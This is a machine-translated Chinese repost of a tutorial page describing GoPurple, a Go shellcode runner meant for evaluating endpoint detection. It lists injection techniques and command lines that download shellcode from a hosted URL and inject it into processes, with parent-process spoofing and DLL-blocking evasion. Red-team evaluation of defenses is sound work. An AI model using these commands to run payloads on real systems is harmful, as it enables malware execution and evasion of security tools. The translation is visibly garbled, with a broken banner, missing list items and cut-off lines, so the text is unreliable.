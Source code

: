 # GoPurple:另一个 Shellcode Runner 包含了不同的技术，用于评估端点安全解决方案的检测能力

> 原文：<https://kalilinuxtutorials.com/gopurple/>

[![](img//469b06fe397daa1f6c7c34077a581d72.png)](https://1.bp.blogspot.com/-etzIdJmCZa8/YTWtmKEgaFI/AAAAAAAAKtQ/XIITgQSyzfwykjvWUf82xKAKj3rLkbk2ACLcBGAsYHQ/s728/images%2B%25281%2529.png)

**GoPurple** 是各种 shell 代码注入技术的简单集合，旨在简化端点检测评估的过程，并挑战自己进入 Golang world。

**安装**

*   需要安装 go。

*   从项目的目录:`**go build**`构建应用程序。如果构建系统不是 Windows，则设置`**GOOS=windows**`

***_/****| |
| | _*|**_ _**_ _ _*_***_ |
| | | _/_ ' _ | | | '**| ' _ | ^ _ ^ _ ^ _ ^ \
| |**|*)|*)|*|*) **/ __， *|* | |。**/|*| _*| |
| | |
|*| |*| by @ s3c dev
-a 字符串
程序命令行参数
-b 字符串
阻塞 DLL 模式(nonms/onlystore for QueueUserAPC)
-p int
进程 ID 将外壳代码注入
-prog string
程序注入
-t string
外壳代码注入要使用的技术:
1:create fiber
2:syscall
3:CreateThreadNative
4:CreateProcess
5:etwpcreateetthread
6:createremotelotethread
7:RtlCreateUserThread
8:CreateThread【T52**

**例题**

需要生成 shellcode，这可以使用 MSF 毒液或 shad0w 之类的工具来完成。然后，需要托管外壳代码，以便远程下载并在远程机器上执行。为了清楚起见，下面的演示说明了使用该工具的不同方法。

*   使用 BananaPhone 方法+shadw 作为外壳代码生成器的外壳代码注入

![](img//03ffe0910e478c13eeb9ecf82ac282dc.png)

*   使用 QueueUserAPC 技术的外壳代码注入+shadw 作为外壳代码生成器+欺骗父 ID (explorer 作为父 ID) +由包含外壳代码的欺骗父启动的进程(calc) +保护进程免受未签名的 DLL 挂钩的影响，因此只有 Microsoft 签名的 DLL 可以挂钩到进程中。

![](img//ab27a5bda1d74eeb61db8d017645016e.png)

*   使用 CreateFiber + msfvenom 作为外壳代码生成器的外壳代码注入

![](img//255f0b5bf4f4ffabff8e654097166548.png)

**如何使用**

**1–gopurple.exe-u urlhostingpayload-T1(create fiber)
2–gopurple.exe-u urlhostingpayload-T2(Syscall)
3–gopurple.exe-u urlhostingpayload-T3(CreateThreadNative)
4–gopurple.exe-u urlhostingpayload-T4(CreateProcess)
5–gopurple.exe-u urlhostingpayload-T5(etwpcreatethread)
6–gopurple.exe-u urlhostingpayload-T6-p target process(create
9–gopurple.exe-u urlhostingpayload-t 9-p target process(CreateRemoteThreadNative)
10–gopurple.exe-u urlhostingpayload-t 10-Prog program-a Process 参数(ex:C:\ Windows \ System32 \ Windows powershell \ v 1.0)和 Process 参数(ex:Get-Process)(CreateProcessWithPipe)
11–gopurple.exe-u urlhostingpayload-t 11-p targetpidas parantprocess-programintoinject
13-gopurple.exe-u urlhostingpayload-t13(banana phone)
14-gopurple.exe-u urlhostingpayload-T14(EnumerateLoadedModules)
15-gopurple.exe-u urlhostingpayload-T15(EnumChildWindows)
16-gopurple.exe-u urlhostingpayload-T16(EnumPageFilesW)**

[**Download**](https://github.com/sh4hin/GoPurple)